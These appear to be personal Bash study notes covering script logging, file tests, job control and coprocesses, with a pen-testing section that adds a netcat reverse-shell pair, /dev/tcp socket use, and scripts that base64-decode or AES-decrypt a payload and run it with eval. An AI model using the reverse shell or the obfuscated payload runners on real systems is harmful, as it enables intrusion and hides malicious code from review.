

script [OPTIONS] FILENAME
$ script output_1.txt
Script started, file is output_1.txt
$ date
Wed Aug 5 12:06:50 JST 2020
$ exit
exit
Script done, file is output_1.txt
$ bash > output.txt
cat output_1.txt | perl -pe 's/\e([^\[\]]|\[.*?[a-zA-Z]|\].*?\a)//g' | col -b > output_1a.txt
-e file: True if file exists.
-f file: True if file exists and is a regular file.
-d file: True if file exists and is a directory.
-r file: True if file exists and is readable.
-w file: True if file exists and is writable.
-x file: True if file exists and is executable.
-s file: True if file exists and has a size greater than zero.
-L file: True if file exists and is a symbolic link.
-N file: True if file exists and has been modified since it was last read.
CTRL-z - suspend a foreground job; use before bg or fg
bg - put current job in background
fg - bring current job to foreground
jobs - list current jobs
kill - terminate job
stty tostop - stop a job if it attempts to send output to terminal emulator
suspend - suspend a job-control shell
wait - wait for background jobs to finish
Syntax:
coproc command args
coproc name (command args;command args)
Example:
# Start a named co-process:
coproc testProc (echo 1;read aline;echo $aline)
# Show file descriptors:
echo ${testProc[@]}
# Show co-process PID:
echo $testProc_PID
# Read the first line of output and show it:
read out <&${testProc[0]}
echo $out
# Send the co-process some input:
echo nonsense >&${testProc[1]}
# Read a second line of output:
read out2 <&${testProc[0]}
# Show the second line of output:
echo $out2
set
env
printenv

See Pluralsight - Pen Testing with Bash
exec 3<>/dev/tcp/google.com/80
echo -e "GET / HTTP/1.1\nHost: google.com\n\n" >&3
cat <&3
SERVER: nc -lnvp 5780
CLIENT: /bin/bash -i < /dev/tcp/127.0.0.1/5780 1>&0
See Pluralsight - Pen Testing with Bash
See Pluralsight - Pen Testing with Bash
See Pluralsight - Pen Testing with Bash
base64 unencode.sh > encoded.sh
eval "$(base64 -d encoded.sh)"
Example:
#!/bin/bash
a=$1
z='base64 -d'
t() {
f="echo -e \"$(echo $a | $z) \neval \\ \""
echo $f
}
z=$(t $a)
eval $(eval $z | tac)
Example command line:
openssl aes-256-cbc -a -salt -pbkdf2 -in secrets.txt -out secrets.txt.enc
openssl aes-256-cbc -d -a -pbkdf2 -in secrets.txt.enc -out secrets.txt.new
Example script:
#!/bin/bash
# We ask the user to enter the passphrase, so that it is not hardcoded in the file
echo "Please enter the passphrase:"
read passphrase
# We validate the passphrase
if [[ -z $passphrase ]]; then
echo "Passphrase cannot be empty"
exit 1
fi
# Encrypted payload contents
encrypted_payload="U2FsdGVkX18dJ/wcjyjr8Gr7oxlZXQq64dL5LDuBWpFDWkBct9JfH+1Ii6RvC3oK"
# Decryption code, the passphrase is mypassphrase
decrypted_payload=$(echo "$encrypted_payload" | openssl aes-256-cbc -d -pbkdf2 -iter 1000 -base64 -pass pass:$passphrase)
# Execute decrypted payload
eval $decrypted_payload